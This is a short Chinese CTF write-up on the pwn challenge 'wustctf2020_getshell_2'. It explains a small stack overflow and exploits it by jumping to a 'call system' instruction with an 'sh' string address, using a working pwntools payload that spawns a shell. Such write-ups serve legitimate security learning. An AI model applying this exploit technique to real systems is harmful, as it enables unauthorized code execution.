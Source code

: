 ```yaml
---
title: '{文件名}'
date: 2024-11-11 13:00:00 +0800
categories: [uaf,malloc_hook,unsortbin_leaklibc]
tags: [ctf,pwn]
---
```

![image-20240106214446580](../assets/img/old_imgs/image-20240106214446580.png)

![image-20240106214457268](../assets/img/old_imgs/image-20240106214457268.png)

![image-20240106214720283](../assets/img/old_imgs/image-20240106214720283.png)

> `shell`函数汇编代码

- `ROPgadgets`字符串的获取
- `call`指令的使用

1. 在漏洞函数`vulnerable`中存在溢出,但是溢出空间很小,只有`8`个位置(两个栈空间)

2. 在`shell`函数中存在`system`函数同时有一串字符串,字符串中有`/sh`

   ```shell
   bamuwe@qianenzhao:~$ ROPgadget --binary wustctf2020_getshell_2 --string 'sh'
   Strings information
   ============================================================
   0x08048670 : sh
   ```

   

3. 溢出到`call system`从栈中得到`/sh`传入参数得到shell

在这里只有两个栈空间可以使用,所以不能用`plt_system`,因为`plt`的时候参数是从后第五位开始的,而`call`指令的函数,直接是栈上后四位传入,题目条件限制了只有两个栈空间能使用,所以只能通过上述方法

```python
from pwn import *
io = process('./wustctf2020_getshell_2')

payload = b'A'*(0x18+4)+p32(0x08048529)+p32(0x08048670)
io.sendline(payload)
io.interactive()
```

by_the_way:这题一开始我是想用栈迁移来做,但是能力不足水平有限,搞了一会儿没耐心了,转而就用这种简单的办法,日后顾盼生姿.